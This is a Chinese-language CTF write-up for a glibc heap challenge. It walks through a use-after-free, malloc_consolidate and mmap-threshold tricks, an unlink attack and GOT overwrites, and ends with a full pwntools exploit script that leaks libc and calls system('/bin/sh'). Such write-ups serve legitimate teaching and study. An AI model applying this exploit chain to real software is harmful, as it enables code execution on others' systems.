





看着挺简单的题，但是限制非常大。而且涉及到超大堆块的分配。一不小心就触发了malloc_conoliadte导致堆区清空。



主函数就一个很简单的菜单函数。



先看第一个函数也就是选项二，这是申请堆块的函数。每一个堆块的大小是固定的，并且只能申请一次。

观察到堆块大小0x28，0xFA0，0x61A80。第一个堆块属于小堆块，第二个属于大堆块，第三个则属于超大堆块。Top chunk都不一定有这么大。

后面两个会触发malloc_conoliadte。malloc_conoliadte触发时系统会去历遍fastbin跟unsortedbin然后合并所有相邻的空闲堆块然后放入到unsortedbin里面等待分配（其实是先把fastbin里面的堆块放到unsortedbin里面）。



这个函数漏洞很明显，uaf并且释放之前还没有检查是否已经被释放。关键是我们怎么去用这个漏洞。



重写函数，但是条件是在程序看来堆快正在使用中。

看完整个程序会发现，可操作空间非常小，漏洞点虽然比较好用但问题是操纵空间还是很小。

程序甚至没有泄露点，因为没有可以打印堆区数据的函数。

那只能我们自己创建条件了。首先排除fastbin attack，小堆块数量太少。版本比较低Ubuntu16，没有tcache。

double free也不行，没有相同类型的堆块。只能考虑一下unlink了。

但是unlink要有堆溢出，这时候uaf就派上用场了。

```
def add(num,txt):
    r.sendlineafter(b'3. Renew secret\n',b'1')
    r.sendlineafter(b'3. Huge secret\n',str(num).encode())
    r.sendlineafter(b'Tell me your secret: ',txt)
def delt(num):
    r.sendlineafter(b'3. Renew secret\n',b'2')
    r.sendlineafter(b'3. Huge secret\n',str(num).encode())
def re(num,txt):
    r.sendlineafter(b'3. Renew secret\n',b'3')
    r.sendlineafter(b'3. Huge secret\n',str(num).encode())
    r.sendafter(b'Tell me your secret: ',txt)
```

初始化脚本先贴出来。

```
add(1,b'a')
delt(1)
add(2,b'a')
```

第一次申请的小堆块释放后是进入fastbin，但是由于第二个堆块触发了触发了malloc_conoliadte使第一个堆快合并进入top chunk

这个时候再申请大堆块，两个指针就发生了重叠。之后就可以利用小堆块去操纵大堆块了。

由于重写函数需要函数标志符为1，所以这里利用小堆块的指针去释放2放入unsorted bin中，刚好要再申请一个小堆块分割大堆块。

当然为了防止大堆块被top chunk合并，我们需要去申请超大堆块用来隔离。但是这个堆块太大了，top chunk的初始值都没这么大。

引用华庭《glibc内存管理ptmalloc源代码分析》中的分析

> 当用户的请求超过 mmap 分配阈值，并且主分配区使用 sbrk()分配失败的时候，或是非 主分配区在 top chunk 中不能分配到需要的内存时，ptmalloc 会尝试使用 mmap()直接映射一 块内存到进程内存空间。使用 mmap()直接映射的 chunk 在释放时直接解除映射，而不再属 于进程的内存空间。

> 当 ptmalloc munmap chunk 时，如果回收的 chunk 空间大小大于 mmap 分配阈值的当前 值，并且小于 DEFAULT_MMAP_THRESHOLD_MAX（32 位系统默认为 512KB，64 位系统默认 为 32MB），ptmalloc 会把 mmap 分配阈值调整为当前回收的 chunk 的大小，并将 mmap 收 缩阈值（mmap trim threshold）设置为 mmap 分配阈值的 2 倍。这就是 ptmalloc 的对 mmap 分配阈值的动态调整机制，该机制是默认开启的

也就是说我们需要申请两次才能申请到用来隔离的超大堆块。



这个就是我们所需要的情况，此时释放超大堆块就会把被分割的堆块合并进入top chunk里面。这样就可以利用

```
re(2,payload)
```

形成堆溢出了。

之后再次申请一个超大堆，此时两个堆块相邻并且有堆溢出可以去更改超大堆的头区触发unlink。


像这样在小堆块里面伪造，并且去修改超大堆块的头区就可以触发unlink实现任意地址写入了。

此时就可以利用小堆块的指针，去控制所有指针的指向了。

ida里面指针的排序我就不贴出来了。

后面利用大堆块的指针去修改free的got表为puts函数的plt，将超大堆块的指针指向atoi的got表。这样free的时候就可以泄露got表。

之后就很简单了，修改atoi的got表为system输入/bin/sh就行了。

题目看似非常简单，实则限制很大。我是调试了好长时间，中间红温了无数次，然后搜到wp都有一点问题。只能自己去想，虽然借鉴了一下思路，但是他们的路都有些许问题。不知道是我的原因还是他们原本就是错的。

```
from pwn import *
from LibcSearcher import *
context.arch = 'amd64'
#r=remote('node5.buuoj.cn',28368)
r= process('./11')
elf = ELF('./11')
gdb.attach(r)
def add(num,txt):
    r.sendlineafter(b'3. Renew secret\n',b'1')
    r.sendlineafter(b'3. Huge secret\n',str(num).encode())
    r.sendlineafter(b'Tell me your secret: ',txt)
def delt(num):
    r.sendlineafter(b'3. Renew secret\n',b'2')
    r.sendlineafter(b'3. Huge secret\n',str(num).encode())
def re(num,txt):
    r.sendlineafter(b'3. Renew secret\n',b'3')
    r.sendlineafter(b'3. Huge secret\n',str(num).encode())
    r.sendafter(b'Tell me your secret: ',txt)
tar = 0x6020B0
tar1 = 0x6020A8
free_got = elf.got['free']
puts_plt = elf.plt['puts']
atoi_got = elf.got['atoi']

add(1,b'a')
delt(1)
add(2,b'a')
add(3,b'a')
delt(3)
add(3,b'a')
delt(1)
add(1,b'a')
delt(3)
add(3,b'a')
payload= p64(0)+p64(0x21)+p64(tar-0x18)+p64(tar-0x10)+p64(0x20)+p64(0x61a90)
re(2,payload)
delt(3)
payload1=p64(0)+p64(free_got)+p64(atoi_got)
re(1,payload1)
re(2,p64(puts_plt))
delt(3)
atoi = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(atoi))
libc = LibcSearcher("atoi",atoi)
libc_base = atoi - libc.dump("atoi")
system_addr = libc_base + libc.dump("system")
payload1=p64(0)+p64(atoi_got)
re(1,payload1)
re(2,p64(system_addr))
r.send(b'bin/sh\x00')
r.interactive()
```

